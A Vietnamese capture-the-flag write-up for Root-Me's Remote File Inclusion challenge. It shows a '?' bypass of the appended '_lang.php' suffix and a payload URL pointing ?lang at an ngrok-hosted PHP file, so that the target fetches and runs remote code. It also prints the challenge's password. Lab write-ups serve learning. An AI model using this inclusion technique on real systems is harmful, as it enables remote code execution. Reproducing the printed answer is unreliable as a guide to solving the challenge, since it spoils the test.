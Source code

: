 # WRITE UP

**Challenge:** [Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)

Website có thiết lập parameter ?lang để đọc source từ lang.php:

<img src="./media/image1.png" style="width:6.5in;height:1.40556in" alt="Graphical user interface, text Description automatically generated" />

Fuzz vào URL thì ta biết được, server sẽ tự động concat thêm ‘\_lang.php’ vào cuối keyword ta gán vào ?lang:

<img src="./media/image2.png" style="width:6.5in;height:1.08681in" alt="Graphical user interface, text, application Description automatically generated" />

Challenge này thử thách về RFI, ta thử chèn một website bất kỳ vào ?lang:

<img src="./media/image3.png" style="width:6.5in;height:1.2in" alt="Graphical user interface, text Description automatically generated" />

Như ban nãy, server tự concat thêm ‘\_lang.php’, ta sử dụng **‘?’** để bypass phần concat với payload: http://challenge01.root-me.org/web-serveur/ch13/?lang=https://github.com/nh4ttruong?

<img src="./media/image4.png" style="width:6.5in;height:3.12083in" alt="A screenshot of a computer Description automatically generated" />

Bypass thành công, giờ thì ta sử dụng server để RFI qua challenge này. Set-up một file tên là ntruong.txt với content là payload PHP:

<img src="./media/image5.png" style="width:6.5in;height:0.67917in" />

Sử dụng ngrok server để public IP Address:

<img src="./media/image6.png" style="width:6.5in;height:3.32917in" alt="A screenshot of a computer Description automatically generated" />

-   URL để RFI: <https://f512-14-241-170-199.ap.ngrok.io/ntruong.txt>

<img src="./media/image7.png" style="width:6.5in;height:0.50694in" />

Giờ thì gắn vào ?lang ta được:

<img src="./media/image8.png" style="width:6.5in;height:3.57051in" alt="Graphical user interface, application, Word Description automatically generated" />

-   Password: R3m0t3\_iS\_r3aL1y\_3v1l

<img src="./media/image9.png" style="width:6.5in;height:3.4359in" alt="A screenshot of a computer Description automatically generated" />

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
